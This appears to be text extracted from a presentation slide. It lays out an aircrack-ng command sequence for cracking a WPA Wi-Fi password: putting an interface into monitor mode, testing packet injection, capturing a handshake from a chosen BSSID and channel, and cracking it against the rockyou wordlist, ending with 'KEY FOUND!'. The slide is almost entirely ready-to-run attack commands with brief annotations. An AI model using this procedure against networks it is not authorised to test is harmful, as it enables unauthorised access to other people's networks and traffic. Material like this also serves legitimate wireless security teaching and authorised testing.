

Syntax
iwconfig Shows current wireless interface info
airmon-ng start wlan0 Puts your wireless interface into monitor mode

aireplay-ng -9 wlan0mon Conducts an injection test with your wireless interface

Injection is working!
airodump-ng wlan0mon Dumps all wireless network info using your interface

airodump-ng –w testfile –-bssid 94:65:2D:84:9B –c 11 wlan0mon Dumps details of network to specified file

WPA Handshake:
airmon-ng stop wlan0mon Puts your wireless interface out of monitor mode

aircrack-ng –w /root/Desktop/wordlists/rockyou.txt testfile-01.cap Cracks the hash captured with the wordlist

KEY FOUND!
Desired interface name (alfa card)
Attack mode 9 (injection test)
Use wireless interface created earlier
Use wireless interface created earlier (wlan0mon, mon0 etc.)
Dump details of network with BSSID shown from airodump and with channel from airodump
Write to filename you choose
Use wireless interface created earlier
Specify path of wordlist/dictionary to use
Specify .cap file to crack created earlier